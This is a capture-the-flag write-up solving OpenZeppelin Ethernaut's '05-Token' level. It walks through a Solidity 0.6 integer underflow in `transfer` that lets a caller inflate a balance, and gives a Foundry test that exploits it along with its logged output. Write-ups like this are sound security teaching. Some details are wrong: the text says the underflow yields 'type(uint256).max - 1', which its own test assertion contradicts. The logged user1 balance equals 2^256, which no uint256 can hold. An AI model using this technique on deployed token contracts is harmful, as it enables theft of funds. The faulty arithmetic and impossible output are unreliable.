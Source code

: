 # What is OpenZeppelin Ethernaut?

OpenZeppelin Ethernaut is an educational platform that provides interactive and gamified challenges to help users learn about Ethereum smart contract security. It is developed by OpenZeppelin, a company known for its security audits, tools, and best practices in the blockchain and Ethereum ecosystem.

OpenZeppelin Ethernaut Website: [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)

<br>

# What You're Supposed to Do?

in `05-Token` Challenge, You Should Try To find a Way to Mint Yourself Alot of Tokens (kinda).

`05-Token` Challenge Link: [https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)


<br>

# How did i Complete This Challenge?

This One is Simple. Since the Solidity Version of the Codebase is `^0.6.0`, it's Vulnerable to `Overflow/Underflow`, Unless We Use `SafeMath` Library from Openzeppelin Which we Clearly Didn't.

Now Lets take a Look at `transfer` function:


```javascript
    function transfer(address _to, uint256 _value) public returns (bool) {
            require(balances[msg.sender] - _value >= 0);
            balances[msg.sender] -= _value;
            balances[_to] += _value;
            return true;
    }
```


first of all We dont Check if the `msg.sender` has enough tokens to transfer (something like this `require(balances[msg.sender] >= _value);`).

and lets say Attacker has Two External Owned Accounts (user1 and user2). 

Attacker Calls the `transfer` function with `user1` and Sends `10e18` to `user2`. (`msg.sender` == `user1`, `_to` == `user2`, `_value` == `10e18`)

Lets go Through the `transfer` function Line by Line with Above Values and Parameters:

```javascript
    require(balances[msg.sender] - _value >= 0);
    require(0 - 10e18 >= 0);
```

Since We Use `^0.6.0` Solidity Version, the Math Equation of `0 - 10e18` will underflow and the result will be: `require(type(uint256).max - 1  >= 0)` which will clearly pass.

then Lets Take a Look at Next Two Lines:

```javascript
    balances[msg.sender] -= _value;
  // 0 -= 10e18 will result in: type(uint256).max - 1 (user1 balance)

    balances[_to] += _value;
  // 0 += 10e18 will result in: 10e18 (user2 balance)
```

And This is How You Can Solve `05-Token` Challenge from Openzeppelin Ethernaut!

by the Way i Also Wrote Test for it, named as `testTransferfunction` inside the `Token.t.sol` file:

```javascript
    function testTransferfunction() external {
        vm.startPrank(userOne);
        token.transfer(userTwo, 10e18);
        assertEq(token.balanceOf(userTwo), 10e18);
        assertEq(token.balanceOf(userOne), (type(uint256).max - 10e18) + 1);
        vm.stopPrank();

        console.log("Balance of User1: ", token.balanceOf(userOne));
        console.log("Balance of User2: ", token.balanceOf(userTwo));
    }
```

You Can Run the Test With Following Command in Your Terminal: (Required to Have Foundry Installed.)

```javascript
    forge test --match-test testTransferfunction -vvvv
```

Output of the `Logs`:

```javascript
    Logs:
        Balance of User1:  115792089237316195423570985008687907853269984665640564039447584007913129639936
        Balance of User2:  10000000000000000000
```
